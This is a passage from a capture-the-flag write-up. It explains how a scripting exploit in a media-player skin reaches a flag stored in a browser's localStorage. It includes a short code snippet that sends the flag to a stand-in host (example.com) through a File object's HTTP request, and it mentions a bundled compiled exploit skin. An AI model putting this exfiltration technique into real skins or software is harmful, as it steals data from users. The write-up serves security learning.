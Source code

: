 From here on out, we can finally use the initial chain of `_uiRoot._div.ownerDocument.defaultView.localStorage.flag` to get access to the flag. The code is quite big so I've omitted it here, but you can view it in the bundled solve.

Once we have the flag, exfiltrating it is trivial. We can abuse the `File` class, whose `exists` method allows us to make an HTTP request to an arbitrary endpoint.

```maki
string flag = obj11.getitem("flag");

// exfiltrate flag
File f = new File;
f.load("https://example.com/?flag=" + obj22);
f.exists();
```

A complete example of the skin source code, as well as the compiled skin exfiltrating the flag to example.com, can be found alongside this writeup.
